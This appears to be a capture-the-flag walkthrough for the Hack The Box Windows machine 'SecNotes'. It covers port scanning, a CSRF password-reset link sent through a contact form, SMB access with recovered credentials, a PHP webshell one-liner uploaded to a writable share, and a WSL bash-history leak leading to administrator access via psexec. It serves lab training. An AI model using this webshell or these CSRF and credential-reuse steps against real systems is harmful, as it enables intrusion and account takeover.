- Machine Name: **SecNotes**
- OS Type: Windows
- Difficulty: Medium

### Port Scanning - Service & Version Enumeration

```bash
# Nmap 7.95 scan initiated Thu May  8 16:58:21 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.10.97
Nmap scan report for 10.10.10.97
Host is up, received echo-reply ttl 127 (0.27s latency).
Scanned at 2025-05-08 16:58:21 IST for 411s
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE      REASON          VERSION
80/tcp   open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-title: Secure Notes - Login
|_Requested resource was login.php
445/tcp  open  microsoft-ds syn-ack ttl 127 Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2025-05-08T04:34:09-07:00
| smb2-time: 
|   date: 2025-05-08T11:34:10
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 2h19m36s, deviation: 4h02m31s, median: -25s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 25086/tcp): CLEAN (Timeout)
|   Check 2 (port 44923/tcp): CLEAN (Timeout)
|   Check 3 (port 53444/udp): CLEAN (Timeout)
|   Check 4 (port 47004/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May  8 17:05:12 2025 -- 1 IP address (1 host up) scanned in 411.27 seconds
```

## Enumeration

### Port 80/HTTP

port 80 is open on target let’s visit the web app in browser



let’s check the web technology using whatweb

```bash
whatweb http://10.10.10.97
```



back to our web app, let’s first create a new account by clicking on signup now button, login with newly created account’s creds


now starting my enumeration from All sections i found useful Change password button



i noticed that we didn’t require the current password to change the password, now another contact us page looks interesting as it send message to tyler

what if user is checking the message, let’s send link to our local web server and start netcat listener on port 80

```bash
rlwrap -r nc -nvlp 80
```



send the message



and yes user clicked it, also it shows that the user-agent is windows powershell, we assume that there’s powershell/batch script doing it

what if we manage to reset the tyler’s password, but for that i need get url that contains password reset link, can we send GET request to /change_pass.php



and it worked, so the idea is we’ll send password reset link to tyler, as the link clicked by tyler, his session cookie with  this request will reset his password

```bash
http://10.10.10.97/change_pass.php/?password=admin123&confirm_password=admin123&submit=submit
```

send this link in contact us message, and wait few seconds and try to login as tyler using admin123 as his password



looking at new site note



looks like the credential of the tyler

```bash
smbclient -L //10.10.10.97 -U 'secnoted.htb/tyler%92g!mA8BGjOirkL%OG*&'
```



```bash
smbclient //10.10.10.97/new-site -U 'secnoted.htb/tyler%92g!mA8BGjOirkL%OG*&'
```



nothing useful but we noticed that we can upload the files in this share

```bash
echo "test" > test.txt
```

and then try to upload files using put command

```bash
put test.txt
```



now how to access this file, we noticed another web server is running on port 8808 port

let’s try to access  the test.txt from there



but after some times it is automatically deleted, so we need to do it fast, first we’ll upload the aspx webshell



Boom! error file or directory not found! what about php

```bash
<?php system($_GET['cmd']); ?>
```





and then we can get the shell by executing nc.exe



Running winpeas i found the wsl is installed on machine



ok so looks like we need to login to wsl 

i’ll locate wsl.exe using where command

```bash
where /R C:\Windows wsl.exe
```



i’ll execute whoami command to see what user we are running

```bash
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe whoami
```



now we need to find bash.exe to execute commands

```bash
where /R C:\Windows bash.exe
```



execute bash.exe to login to machine

```bash
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```



then i found the .bash_history file inside root user’s home directory



we got the administrator’s password, let’s login as administrator using impacket-psexec

```bash
impacket-psexec Administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.10.10.97
```

